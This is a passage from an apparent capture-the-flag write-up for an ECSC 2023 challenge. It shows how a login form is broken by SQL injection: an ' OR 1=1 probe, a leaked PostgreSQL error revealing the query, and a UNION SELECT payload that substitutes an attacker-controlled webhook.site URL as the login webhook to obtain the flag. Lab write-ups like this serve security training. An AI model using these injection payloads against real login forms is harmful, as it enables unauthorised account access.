

First things first, a SQL injection attempt: `' OR 1=1 -- `. I get a weird looking error `error:Could not resolve host: chat.evil-corporation.private` which ensures me that the field is indeed injectable, so I put there some nonsense like `' test` and get this error:
```
Fatal error
: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: syntax error at or near "test" LINE 1: ...name, webhook_login_url FROM users WHERE username = '' test' ^ in /var/www/html/login.php:47 Stack trace: #0 /var/www/html/login.php(47): PDO->query('SELECT username...') #1 {main} thrown in
```
which basically gives me SQL query. Based on that query I inject this sql code:
```sql
' union select 'test', 'https://webhook.site/2c96e78b-2e10-480e-9d7d-d8bb2f5ff76f' -- 
```
that impersonates `webhook_login_url` from database. Result:



I enter the link into browser, it logs me in and gives me access to the flag url: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt
